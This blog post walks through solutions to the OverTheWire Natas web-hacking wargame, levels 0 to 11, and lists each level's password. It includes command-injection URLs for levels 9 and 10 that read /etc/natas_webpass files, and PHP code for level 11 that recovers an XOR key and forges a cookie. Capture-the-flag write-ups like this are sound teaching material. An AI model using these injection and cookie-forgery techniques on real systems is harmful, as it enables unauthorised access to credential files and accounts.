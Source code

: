 ```yaml
---
layout:     post
title:      "Natas"
subtitle:   "Solutions"
date:       2016-01-22 9:00:00
author:     "Heeraj"
header-img: "img/post-bg-02.png"
---
```

<script type='text/javascript' src='//eclkmpbn.com/adServe/banners?tid=98477_161886_3&type=footer&size=468x60'></script>
<p> If you like to read our old blogs you are welcome, <a href="http://heeraj123.wordpress.com">I4INFO</a> </p>

<p>I spent last day an hour or something on natas , the website would be very familiar to you. It was the website from which I first started to learn linux commands and the same people who run banditoverwire. Actually came to know from wechall.net, well that was also new to me :) But I could assure you that if you want to start with web exploitation as a CTF point of you, this is http://natas.natas.labs.overthewire.org very good option.</p>

<p>Challenge 00</p>

<p>See the source code.</p>

<blockquote>pass:gtVrDuiDfck831PqWsLEZy5gyDz1clto</blockquote>

<p>Challenge 01</p>

<p>Go to developer option by clicking F12</p>

<blockquote>pass:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi</blockquote>

<p>Challenge 02</p>

<p>Goto files directory</p>

<blockquote>pass:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14</blockquote>

<p>Challenge 03</p>

<p>Open the robots.txt you will get the file which contain pass to next level.</p>

<blockquote>natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ</blockquote>

<p>Challenge 04</p>

<p>Use a burp suite and change the referrer</p>

<blockquote>Referer: http://natas5.natas.labs.overthewire.org/ <br>
            pass:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
</blockquote>

<p>Challenge 05</p>

<p>You have to change the cookie of login from 0 to 1, using edit my cookie or firebug</p>

<blockquote>pass:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1</blockquote>

<p>Challenge 06</p>

<p> You can easily get the secret using the page source, when you get the secret.
Give a post request using secret and a submit. Write a script or use postman in chrome.
</p>

<blockquote>pass:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9</blockquote>

<p>Challenge 07</p>

<p>Remote file inclusion</p>

<blockquote>pass:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe</blockquote>

<p>Challenge 08</p>

<p>Exploit</p>

<blockquote><?phpecho base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362")));?></blockquote>

<blockquote>pass:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl</blockquote>

<p>Challenge 09</p>

<p>Exploit</p>

<p>http://natas9.natas.labs.overthewire.org/?needle[]=ls&needle=;cat%20/etc/natas_webpass/natas10<p>

<blockquote>Pass:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu</blockquote>

<p>Challenge 10</p>

<p>There are exactly 2 ways to solve the challenge, one is going back to challenge 9
and entering ".* /etc/natas_webpass/natas11"</p>

<p>Solution 2 would be by using line feed you can observer we can execute the command and %20 for space. So the exploit look like this.</p>

<blockquote>http://natas10.natas.labs.overthewire.org/?needle[]=.*%20/etc/natas_webpass/natas11&needle=%0acat%20.*%20/etc/natas_webpass/natas11</blockquote>

<blockquote>pass:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK</blockquote>

<p>challenge 11</p>

<p>Getting the key</p>

<blockquote>
<?php<br>
<br>
	$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");<br>
	$cookie = "ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw%3D";<br>
	function xor_encrypt($in,$key) {<br>
		$text = $in;<br>
		$outText = '';<br>
		// Iterate through each character<br>
		for($i=0;$i<strlen($text);$i++) {<br>
			$outText .= $text[$i] ^ $key[$i % strlen($key)];<br>
		}<br>
		<br>
		return $outText;<br>
        }<br>
	$key = xor_encrypt(json_encode($defaultdata), base64_decode($cookie));<br>
	echo $key;<br>
	echo "\n";<br>
<br>
?><br>
</blockquote>

<p>Get the cookie</p>
<blockquote>
<?php<br>
	$defaultdata = array( "showpassword"=>"Yes", "bgcolor"=>"#ffffff");<br>
	function xor_encrypt($in) {<br>
	    $key = 'qw8J';<br>
	    $text = $in;<br>
	    $outText = '';<br>
	    // Iterate through each character<br>
	     for($i=0;$i<strlen($text);$i++) {<br>
		        $outText .= $text[$i] ^ $key[$i % strlen($key)];<br>
     	     }<br>
                return $outText;<br>
	}<br>
	$newcookie = base64_encode(xor_encrypt(json_encode($defaultdata)));<br>
	echo " \n ------------------------------------\n";<br>
	echo " \n             New cookie              \n";<br>
	echo $newcookie;<br>
<br>
	echo " \n ------------------------------------\n";<br>
?><br>
</blockquote>

<p>Add this cookie data</p>

<blockquote>pass: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3</blockquote>

<p>Wait for the next blog, will be soon back!</p>

<p>Thank you for reading the blog! </p>
